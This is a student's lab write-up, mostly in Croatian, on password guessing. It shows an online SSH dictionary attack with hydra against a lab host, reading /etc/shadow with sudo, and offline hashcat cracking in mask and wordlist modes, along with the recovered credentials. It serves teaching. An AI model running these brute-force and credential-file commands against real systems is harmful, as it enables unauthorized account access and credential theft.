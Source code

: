 # LAB 5

ONLINE PASSWORD GUESSING

Online napad → dok se ne ulogiramo pokusavamo razlicite lozinke - BRUTE FORCE 

To izvodimo alatom hydra → a very fast network logon cracker which support many different services

Neučinkovito, potreban nam je dictionary -  nalazi se na serveru i dobavljamo ga wget funkcijom

Napad riječnika pokrećemo naredbom

# hydra -l <username> -P dictionary/<group ID>/dictionary_online.txt 10.0.15.1 -V -t 4 ssh

hydra -l celan_dea -P dictionary/g2/dictionary_online.txt 10.0.15.9 -V -t 4 ssh

rezultat traženja:

[22][ssh] host: 10.0.15.9 login: celan_dea password: easemm

![Untitled](LAB%205%20c0440a008f1d4d158559f220d45f7cc7/Untitled.png)

OFFLINE PASSWORD GUESSING

shadow file- pohranjuje lozinke

sudo-administratorske ovlasti

sudo cat /etc/shadow - dobavljamo hash lozinku

prebacili smo lozinku lokalno i sad cemo je probat crackat lokalno

Hashcat alatom izvodimo offline password napad

hashcat - Advanced CPU-based password recovery utility

`hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10`

ovo je dosta sporo - brže sa dictionarijem

`wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g1/`

# hashcat --force -m 1800 -a 0 <password_hash_file> <dictionary_file> --status --status-timer 10

hashcat --force -m 1800 -a 0 lab-5-hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10

Ovakav napad se puno brže izvršava od online napada.

‘oravit’ - rjesenje!!